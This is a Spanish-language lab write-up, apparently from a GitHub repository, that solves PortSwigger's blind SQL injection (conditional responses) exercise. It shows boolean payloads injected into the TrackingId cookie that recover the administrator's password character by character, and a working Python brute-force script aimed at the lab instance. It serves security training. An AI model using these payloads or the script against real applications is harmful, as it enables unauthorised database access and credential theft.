 
---

# Guía práctica: SQLi Blind — respuestas condicionales

---

## Laboratorio PortSwigger

Para ilustrar con ejemplos reales usaremos el laboratorio gratuito de [PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses):

`https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses`

Todas las pruebas que se muestran a continuación se realizaron contra la URL provista por ese laboratorio.

---

## Confirmación de la vulnerabilidad

**Resumen:** en este laboratorio la entrada vulnerable es la cookie `TrackingId`. Para confirmarlo interceptamos peticiones con Burp Suite y observamos el valor de la cookie en la cabecera `Cookie`. También se puede ver con DevTools (`Ctrl+Shift+I`).

**Paso práctico (comprobación rápida):**

1. Intercepta una petición con Burp (o abre DevTools).
    
2. Localiza la cabecera `Cookie: TrackingId=...`.
    
3. Modifica temporalmente el valor añadiendo una comilla simple (`'`) al final:  
    `TrackingId=G1KUuxbiLkvBBAT5'`
    
4. Reenvía la petición y compara la respuesta con la original. En este laboratorio al añadir `'` se observa un cambio sutil en el contenido (por ejemplo, desaparece el texto `Welcome back!`), lo que indica que la entrada está afectando a la consulta SQL y que existe un comportamiento condicional en la aplicación.
    

> Nota: la ausencia de un error explícito no descarta SQLi. En _blind SQLi_ la aplicación no devuelve un mensaje de error claro; en su lugar, devuelve respuestas distintas (o con tiempos distintos) según el resultado de una condición SQL.

**Evidencia visual:**

![BupSuite](./Imágenes/burp_1.png)

![web](./Imágenes/web_a.png)

Fíjese que al introducir  `'` en el campo vulnerable obtenemos el error (vemos que desaparece el mensaje de `Welcome back!`)

![web](./Imágenes/web_b.png)

Con lo que nos tenemos que quedar es que cuando la query es correcta vemos el `Welcome back!`, es decir, vemos la parte de `Conditional response` y cuando la query es errónea no vemos el `Welcome back!`. La parte de `Blind` (a ciegas) es porque la página no va a mostrar ningún tipo de dato en su respuesta, es decir, ahora introduciremos una query así  `' UNION SELECT 'test'-- -`  o también `' UNION SELECT NULL-- -`. En ambas veremos `Welcome back!` ya que la query es correcta, es decir, sí que hay una columna (lo comprobamos con `' ORDER BY 1-- -`), pero no vemos `test` ni obviamente `NULL` en la página. Esto es porque la SQLi es a ciegas, es decir, realmente tenemos una vía potencial de extraer datos de las columnas y tablas, pero para ello vamos a tener que ir jugando con diferentes querys para poder ir construyendo carácter a carácter cada dato de la base de datos. Esto lo podemos hacer confirmando manualmente valores como la longitud de la tabla X, por qué letra empieza, etc. Pero también podemos automatizar con scripts el proceso entero o parte de él.


![BupSuite](./Imágenes/burp_2.png)

Confirmamos también que la query `' UNION SELECT schema_name FROM information_schema.schemata-- -` es una consulta válida. Pero como decíamos no vemos reflejada en la respuesta las bases de datos almacenadas. Para ello tendremos que usar querys que permitan extraer información por cada carácter válido.

![BupSuite](./Imágenes/burp_3.png)

Sabemos que en este laboratorio la tabla relevante es `users(username, password)` y nuestro objetivo es **recuperar la contraseña del usuario `administrator`**. Para ello vamos a usar comprobaciones booleanas simples que nos permitan inferir, carácter a carácter, el valor del campo `password`.

Antes de extraer datos, comprobamos que la aplicación responde de forma distinta según una condición booleana:

```sql
' AND 'a' = 'a'

' AND (SELECT 'a') = 'a'
```

Ambas expresiones evaluarán a TRUE. Si inyectamos cualquiera de ellas en el punto vulnerable y la respuesta del servidor mantiene el comportamiento “normal” (por ejemplo sigue mostrando un texto como Welcome back!), tenemos una señal fiable de que podemos utilizar **condiciones booleanas** para distinguir TRUE/FALSE.

![BupSuite](./Imágenes/burp_4.png)

![BupSuite](./Imágenes/burp_5.png)

![BrupSuite](./Imágenes/burp_8.png)

**Comprobación aplicada a la columna password**:

A partir de aquí planteamos una condición que compare la primera letra de la contraseña del usuario administrator con un carácter candidato. Si la comparación es verdadera la aplicación responderá como en el caso “normal”; si es falsa veremos un cambio observable.

Payload boolean-based (MySQL — primer carácter del password)

```sql
' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username = 'administrator' LIMIT 1) = 'a'-- -
```

Explicación: 

- `SUBSTRING(password, 1, 1)` obtiene el primer carácter del campo password.

- La subconsulta `SELECT ... FROM users WHERE username = 'administrator' LIMIT 1` devuelve ese carácter para el usuario administrator.

- Comparamos el resultado con `'a'`. Si la condición es TRUE la respuesta del servidor permanecerá igual; si es FALSE la respuesta cambiará (por ejemplo desaparecerá o cambiará un texto).

- Repetimos la prueba con otros caracteres ('b', 'c', '0', etc.) hasta identificar el carácter correcto.

- Para extraer la segunda letra usaríamos `SUBSTRING(password, 2, 1)`, y así sucesivamente.


---

## Explotación

Como el campo que nos interesa obtener es el de contraseña, podemos aplicar este mismo principio para saber por que carácter empieza la contraseña del usuario administrator. Simplemente usamos la query de antes pero iterando por el campo `password,1,1`  

```sql
' and (select substring(password,1,1) from users where username='administrator') = '0'-- -
```

![BrupSuite](./Imágenes/burp_9.png)

Como tenemos una vía de extraer para cada carácter la contraseña, también tenemos una vía potencial de saber la longitud exacta de la contraseña. Usando el mismo principio y jugando con el parámetro `length(<valor>)`:

```sql
' and (select substring(username,1,1) from users where username='administrator' and length(password)=20) = 'a'-- -
```

Con esta query obtenemos una respuesta booleana de valor True al igualar la longitud del valor `password` del usuario llamado `administrator` ubicado en la tabla `users` de la base de datos en uso. La longitud resulta ser `20`. Con toda esta información podemos crear un script en python.

![BurpSuite](./Imágenes/burp_10.png)


---

## Script

```python
#!/usr/bin/env python3

from pwn import *
import requests, sys, signal, string

def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    p1.failure("Ataque detenido")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits


p1 = log.progress("SQLi")


def makeSQLi():

    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    password = ""

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                'TrackingId': f"NPOvQ2mmdkPKkeJz' and (select substring(password,{position},1) from users where username='administrator') = '{character}'-- -",
                'session': "ZviMqR53YnFwdgn0XCuNVlgwfHtkl7jK"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0ab900f804677dc9815b93e50088000e.web-security-academy.net/", cookies=cookies)

            if "Welcome back" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLi()
```

Resultado:

```bash
[↑] Password: 612dsg72tl8gmicflnku
```

[^1]: 
